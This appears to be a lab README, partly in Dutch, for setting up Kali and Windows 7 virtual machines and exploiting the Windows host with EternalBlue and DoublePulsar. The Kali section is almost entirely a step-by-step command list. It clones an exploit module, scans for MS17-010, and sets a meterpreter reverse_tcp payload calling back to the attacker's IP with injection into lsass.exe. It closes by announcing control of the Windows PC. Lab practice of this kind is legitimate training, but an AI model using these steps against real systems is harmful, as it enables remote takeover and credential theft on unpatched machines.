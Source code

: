 # SETUP
1) Run "Setup Script"
	- make sure Kali-2023.4-64bit is unzipped so the folder 64bit is accessible in the root
	- make sure the windows iso file is accessible in the root
	
# WINDOWS VM

1) Installeer Guest Additions op Windows
	- Open Computer - CD Drive (E:) - vboxadditions - VBoxWindowsAdditions.exe
	- Herstart VM

2) Run "Transfer To Windows VM"

3) Op de Windows VM, run de bat file "post-install-windows-7" die op het bureaublad staat

4) Open CMD en run 'ipconfig'. Noteer het IPv4 Address

# KALI VM

1: ```sudo apt-get update```

2: ```git clone https://github.com/w0rtw0rt/EternalBlue```

3: ```msfconsole```

4: ```exit```

5: ```sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue-doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb```

6: ```sudo dpkg --add-architecture i386```

7: ```sudo apt-get install libwine (of gewoon wine?)```

8: ```sudo mkdir /root/.wine```

9: ```sudo mkdir /root/.wine/c_drive```

10: ```sudo metasploit```

11: ```use auxiliary/scanner/smb/smb_ms17_010```

12: ```set RHOSTS <Windows IP>```

13: ```run```

14: ```use payload/windows/x64/meterpreter/reverse_tcp```

15: ```set LHOST <Kali IP>```

16: ```use exploit/windows/smb/eternalblue_doublepulsar```

17: ```set payload payload/windows/x64/meterpreter/reverse_tcp```

18: ```set TARGET 8```

19: ```set RHOSTS <windows ip>```

20: ```set LHOST <kali ip>```

21: ```set TARGETARCHITECTURE x64```

22: ```set PROCESSINJECT lsass.exe```

23: ```set DOUBLEPULSARPATH /home/osboxes/EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps/```

24: ```set ETERNALBLUEPATH /home/osboxes/EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps/```

25: ```set WINEPATH /home/osboxes/.wine/drive_c/```

26: ```run```

YOU HAVE GOT CONTROL OVER WINDOWS PC
